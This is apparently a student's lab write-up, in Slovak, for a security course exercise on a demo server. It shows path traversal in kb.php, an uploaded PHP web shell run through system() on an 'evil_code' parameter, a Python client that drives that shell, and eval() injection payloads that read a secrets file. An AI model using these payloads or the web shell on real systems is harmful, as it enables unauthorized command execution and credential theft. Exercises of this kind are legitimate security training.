










# Cvičenie 2 BIT

### Fedor Viest
### Cvičenie: Po 10:00

---
---

## 2.1. Nájdite file inclusion zraniteľnosť na stránke “kb.php”

Najprv som skúsil niečo takéto:

```
https://xviest.bit.demo-cert.sk/kb.php?preview=utils/scripts/../../../../../etc/passwd
```

čo by malo vypísať obsah súboru /etc/passwd. Ale dostal som takúto chybu, čo mi to zakazuje.



Ale všimol som si, že sa nachádzam v directory **.kb/approved/**.

```
https://xviest.bit.demo-cert.sk/kb.php?preview=../../kb.php
```

čím som si leakol zdrojový kód kb.php


## 2.2. Analyzujte zdrojový kód stránky samotnej. Identifikujte:
- heslo potrebné pre nahranie nového súboru,
- adresár, do ktorého vie aplikácia zapisovať,
- formát názvu súboru,
- skrytú funkcionalitu stránky.

1. 

Heslo je "**kokodril:)**"




2. 3. 

Stránka zapisuje do directory **kb/new**, pričom súbory ukladá ako čas v ktorom boli nahraté a v **.html**. Napríklad keď nahrám súbor 2.10.2023 o 11:20, tak súbor sa uloží ako **202310021120.html**. Stránka podporuje iba formáty html a plaintext. 



4. 

Skrytá funkcionalita sa nachádza v dynamic_preview, čo sa dá v URL nastaviť na true a potom sa vykoná include v php kóde




## 2.3. Zneužite tieto dve zranitelnosti na nahranie a vykonanie vlastného "web shell" scriptu, napísaného v jazyku PHP. Script:
- používať funkciu system()
- vykonávať pomocou nej príkazy zadané do premennej "evil_code"

Vytvoril som si jednoduchý .txt súbor s takýmto obsahom:

```
fhpbfvbegbqe
ewbwtr
gbwetb
wrntrwbevbeoúvbewr
etbeuwobr
vqrte
qbet
wpbeq

<?php
	echo "ahoj";
?>
```

Tento súbor som nahral na stránku a zaznamenal čas, kedy sa súbor nahral. Potom som sa k nemu dostal pomocou URL:

```
https://xviest.bit.demo-cert.sk/kb.php?preview=../new/202310021217.html&dynamic_preview=1
```

Keď som nastavil dynamic preview tak už sa vypísalo aj "ahoj".



Súbor som upravil nasledovne:

```
fhpbfvbegbqe
ewbwtr
gbwetb
wrntrwbevbeoúvbewr
etbeuwobr
vqrte
qbet
wpbeq

<?php
    if(isset($_GET['evil_code']))
    {
        system($_GET['evil_code']);
    }
?>
```

$_GET[] berie premenné z URL, to znamená, že potom viem vykonávať príkazy použitím **evil_code=** v URL.

```
https://xviest.bit.demo-cert.sk/kb.php?preview=../new/202310052310.html&dynamic_preview=1&evil_code=ls
```

Pomocou ls /var/www som si vypísal obsah priečinka

```
https://xviest.bit.demo-cert.sk/kb.php?preview=../new/202310052310.html&dynamic_preview=1&evil_code=ls%20/var/www
```



Tu som si všimol priečinok **secrets** a našiel som svoj tajný súbor: **xviest_01806769.php**, na ktorý viem pristúpiť cez:

```
https://secrets.bit.demo-cert.sk/xviest_01806769.php
```

Aby som mohol príkazy spúštať jednoduchšie a nemusel stále kopírovať z/do URL, spravil som si python script, kde viem rovno napísať príkazy a prepínače, ktoré sa majú vykonať.

```python
import requests
import re


website = "https://xviest.bit.demo-cert.sk/kb.php?preview=../new/{}.html{}"

filename = "202310052310"

options = "&dynamic_preview=1&evil_code="

while 1:
    code = str(input("shell commands: "))
    options += code
    r = requests.get(website.format(filename, options))
    print("Website url: ", r.url)
    if r.status_code == 200:
        output = re.sub(r'<.*?>', '', r.text)
        print("\n\n\n")
        print(output)
        options = "&dynamic_preview=1&evil_code="
    else:
        print("Error: {}".format(r.status_code))
        break
```




## 2.4. Pomocou vlastného web shellu nájdite váš "tajný subor" niekde v adresari /var/www/.
- Nepodarí sa vám ho prečítať cez file inclusion alebo code injection, no môžete ku nemu pristúpiť cez http://secrets.bit.demo-cert.sk/...

Súbor som našiel vo /var/www/secrets

Názov súboru: xviest_01806769.php


## 2.5. Tajny súbor obsahuje code injection zraniteľnosť cez funkciu eval().
- Nájdite ju a získajte pomocou nej pristup ku suboru "/opt/secrets/{ais_login}.txt"

Najprv som skúsil funkcionalitu stránky, kde som si z URL všimol, že sa posielajú 3 php premenné (a, op, b). 
Tak som začal skúsať rôzne príkazy na vyvolanie iného ako default správania. 

Napríklad som skúsil do pola napísať iba ";", čo mi nevrátilo nič, alebo error s **unexpected ;**

Potom som skúšal rozne linux príkazy s tým, že som zároveň aj vyplnil polia číslami, napríklad:
```
5; system('ls')
```



Potom som našiel, že príkazy v command injection útokoch sa dajú kombinovať pomocou **&&**. Pomocou tohto prikazu som si vedel vypísať obsah php súboru:

```bash
5 && system('cat xviest_01806769.php ');
```



Pomocou tohto príkazu, som si vypísal heslo pre môj účet.

```bash
5 && system('cat /opt/secrets/xviest.txt');
```



Heslo: **kabar**
